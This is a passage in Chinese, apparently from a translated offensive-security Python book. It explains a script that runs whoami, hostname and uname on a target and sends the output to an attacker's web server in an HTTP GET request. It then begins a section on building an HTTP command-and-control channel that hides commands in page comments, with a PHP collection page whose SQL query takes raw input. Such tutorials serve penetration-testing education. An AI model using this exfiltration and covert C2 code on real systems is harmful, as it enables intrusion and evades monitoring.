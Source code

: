 ## 它是如何工作的…

导入后，脚本的第一部分将创建一个命令数组：

```
commands = ['whoami','hostname','uname']
```

这是三个标准 Linux 命令的示例，这些命令可以将有用的信息反馈给攻击者。注意，这里假设目标服务器正在运行 Linux。使用前几章中的脚本进行侦察，以确定目标的操作系统，并在必要时将此阵列中的命令替换为 Windows 等效命令。

接下来，我们有主`for`循环：

```
            p = subprocess.Popen(command, stderr=STDOUT, stdout=PIPE)
            out[command] = p.stdout.read().strip()
```

这部分代码执行命令并获取来自`subprocess`的输出（将标准输出和标准错误都传输到单个`subprocess.PIPE`）。然后将结果添加到 out 字典中。请注意，我们在这里使用了一个`try`和`except`语句，因为任何无法运行的命令都会导致异常。

最后，我们有一个 HTTP 请求：

```
requests.get('http://localhost:8000/index.html?' + urllib.urlencode(out))
```

此使用`urllib.encode`将字典转换为 URL 编码的键/值对。这意味着可能影响 URL 的任何字符，例如，`&`或`=`，将转换为其 URL 编码的等效字符，例如，`%26`和`%3D`。

注意，脚本端将没有输出；所有内容都在 HTTP 请求中传递给攻击者的 web 服务器（示例使用端口`8000`上的 localhost）。`GET`请求如下所示：

![How it works…](graphics/B04044_08_01.jpg)

# 创建 HTTP C2

公然在 URL 中显示您的命令的问题是，即使是半睡半醒的日志分析师也会发现它。有多种隐藏请求的方法，但是当您不知道响应文本是什么样子时，您需要提供一种隐藏输出并将其返回到服务器的可靠方法。

我们将创建一个脚本，该脚本将命令和控制活动屏蔽为 HTTP 流量，从网页上的注释中获取命令，并将输出返回到留言簿中。

## 开始

为此，您将需要一个功能正常的 web 服务器，它有两个页面，一个用来存放您的评论，另一个用来存放您的检索页面。

您的评论页面应该只有标准内容。为此，我使用 Nginx 默认主页，并在最后添加注释。评论应表述为：

```
<!--cmdgoeshere-->
```

检索页面可以简单到：

```
<?php

$host='localhost';
$username='user';
$password='password';
$db_name="data";
$tbl_name="data";

$comment = $_REQUEST['comment'];

mysql_connect($host, $username, $password) or die("Cannot contact server");
mysql_select_db($db_name)or die("Cannot find DB");

$sql="INSERT INTO $tbl_name VALUES('$comment')";

$result=mysql_query($sql);

```